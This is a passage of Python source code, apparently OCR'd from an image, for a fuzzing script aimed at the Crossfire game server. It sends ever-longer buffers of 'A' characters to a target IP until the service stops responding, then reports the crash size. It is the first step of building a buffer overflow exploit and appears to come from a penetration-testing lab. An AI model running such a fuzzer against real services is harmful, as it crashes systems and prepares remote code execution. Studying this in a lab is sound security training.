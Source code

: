 ```python
        print("[!] Connection failed, check if Crossfire is running")
        return
    
    # Begin fuzzing loop
    last_success = 0
    while current_length <= max_length:
        try:
            # Create socket and connect
            s = so.socket(so.AF_INET, so.SOCK_STREAM)
            s.settimeout(5)
            
            # Create our payload
            buffer_content = "A" * current_length
            string = buffer_prefix + buffer_content + buffer_suffix
            
            # Connect and send payload
            s.connect((server_ip, server_port))
            
            # Wait for banner
            s.recv(1024)
            
            # Send payload
            print(f"[*] Fuzzing with {len(string)} bytes")
            print(f"[*] Buffer size (without prefix/suffix): {current_length}")
            s.send(string.encode())
            
            # Try to receive response (if server still alive)
            try:
                s.recv(1024)
                s.close()
                print("[+] Server still running")
                last_success = current_length
            except:
                print("[!] No response from server")
            
            # Increment counter and buffer size
            counter += 1
            current_length += step_size
            
            # Wait before next attempt
            time.sleep(0.2)
            
        except so.error as e:
            print(f"[!] Socket error: {e}")
            
            # If we get a connection refused, the server has likely crashed
            if "refused" in str(e).lower():
                print(f"[+] Server crashed!")
                print(f"[+] Last successful buffer size: {last_success}")
                print(f"[+] Crash occurred at buffer size: {current_length}")
                print(f"[+] Minimum bytes to crash: {current_length}")
                break
            
            time.sleep(3)
        except Exception as e:
            print(f"[!] General error: {e}")
            time.sleep(3)
    
    print("[*] Fuzzing complete")

if __name__ == "__main__":
    # Define server to target
    server = "192.168.1.180"  # IP of the local host
```